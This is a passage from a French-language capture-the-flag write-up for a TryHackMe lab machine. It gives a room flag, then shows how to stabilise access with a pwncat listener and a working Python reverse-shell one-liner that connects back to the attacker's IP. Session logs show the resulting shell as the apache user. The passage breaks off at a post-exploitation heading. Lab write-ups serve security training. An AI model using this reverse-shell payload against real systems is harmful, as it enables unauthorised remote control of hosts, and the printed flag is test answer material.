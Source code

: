 ```bash
# pwd
/data/www/default
# cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}

```

## Réponse à la Q1

La réponse est **THM{fl46_650c844110baced87e1606453b93f22a}**

Maintenant que nous avons un shell sur la cible, nous pourrions vouloir le stabiliser car nous ne pouvons pas faire grand-chose avec.

Pour ce faire, j'aime utiliser `pwncat` (https://github.com/calebstewart/pwncat) qui est un outil vraiment utile. Jetez-y un oeil !

Nous pouvons obtenir un reverse shell stable en utilisant les commandes suivantes.

D'abord, on démarre l’écoute pwncat

```bash
pwncat -lp 4444
[11:35:05] Bienvenue à pwncat 🐈! __main__.py:164
lié à 0.0.0.0:4444
```

Ensuite, nous pouvons créer un reverse shell en Python

```bash
# which python # Nous vérifions d'abord que Python est disponible sur la machine cible
/usr/bin/python
# Ensuite, nous exécutons le reverse shell Python
# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<THM_LOCAL_IP",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

```

```bash
pwncat -lp 4444
[11:35:05] Bienvenue à pwncat 🐈! __main__.py:164
[11:37:48] connexion reçue de 10.10.35.124:53306 bind.py:84
[11:37:49] 0.0.0.0:4444: mise à niveau de /usr/bin/dash à /usr/bin/bash manager.py:957
[11:37:50] 10.10.35.124:53306: nouvel hôte enregistré avec la base de données manager.py:957
(local) pwncat\$
# En utilisant CTRL + D, nous obtenons un reverse shell propre
(remote) apache@tryhackme:/data/www/default\$ id
uid=1001(apache) gid=1001(apache) groups=1001(apache)

```

**Note : J'ai essayé de nombreux payloads de reverse shell (Bash, Netcat, Perl, etc.) mais je continuais à obtenir cette erreur : `[-] No valid response received or target not vulnerable`. Seul celui en Python a fonctionné pour moi.**

## Post-exploitation
